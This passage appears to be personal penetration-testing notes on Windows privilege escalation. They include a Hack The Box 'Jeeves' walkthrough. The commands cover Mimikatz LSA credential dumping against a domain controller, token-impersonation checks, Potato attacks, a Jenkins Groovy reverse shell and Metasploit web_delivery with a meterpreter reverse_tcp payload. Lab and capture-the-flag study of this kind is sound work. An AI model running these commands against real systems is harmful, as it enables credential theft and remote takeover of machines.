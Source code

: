 > When we try to dump LSA for example and we dont have access. We can try impersonate other user and execute as we were him/her 

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer <DC.domain.local>

privilege::debug
LSADump::LSA /patch
```

### Impersonation Privileges
meterpreter:
```bash
getprivs
```
shell:
```powershell
whoami /priv
```

```powershell
SeAssignPrimaryToken
SeImpersonatePrivilege
SeTakeOwnership
```

#### Potato Attacks
if these are available, we can try juicy potato / rotten potato

```powershell
SeAssignPrimaryToken
SeImpersonatePrivilege
```

## Jeeves htb
Groovy Reverse Shell - https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

in jenkings:
```
# search for Script Console
# there is a rev shell using groovy, change ip/port and set a listener

# save the systeminfo in case you need to run windows-exploit-suggester.py
./windows-exploit-suggester.py --database <db.xls> --systeminfo <systeminfo file>
```

> if u find vulns related to potato / hot potato / rotten potato. Try these first, cause they are gold


msfconsole

use exploit/multi/script/web_delivery:
```bash
set payload to windows/meterpreter/reverse_tcp
set target to psh (powershell)
set lhost, srvhost
```
